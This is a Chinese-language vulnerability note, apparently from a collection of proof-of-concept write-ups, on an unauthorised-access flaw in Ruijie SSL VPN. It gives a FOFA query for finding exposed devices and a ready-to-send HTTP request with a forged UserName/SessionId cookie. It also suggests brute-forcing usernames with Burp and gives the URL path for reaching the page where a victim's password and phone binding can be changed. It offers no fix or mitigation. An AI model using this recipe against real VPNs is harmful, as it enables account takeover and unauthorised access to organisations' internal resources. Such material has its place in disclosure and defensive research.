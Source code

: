 # 锐捷SSL-VPN-越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

> [!NOTE]
>
> Ruijie SSL VPN

## FOFA

> [!NOTE]
>
> icon_hash="884334722" || title="Ruijie SSL VPN"

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi

![](锐捷SSL-VPN-越权访问漏洞.assets/1627363604348201.jpg)

POC请求包如下

```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

> [!NOTE]
>
> 在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](锐捷SSL-VPN-越权访问漏洞.assets/1627363604710135.jpg)

用户名正确时会返回敏感信息

![](锐捷SSL-VPN-越权访问漏洞.assets/1627363604975038.jpg)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](锐捷SSL-VPN-越权访问漏洞.assets/1627363605283604.jpg)

点击个人设置跳转页面即可修改账号信息

![](锐捷SSL-VPN-越权访问漏洞.assets/1627363605521674.jpg)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973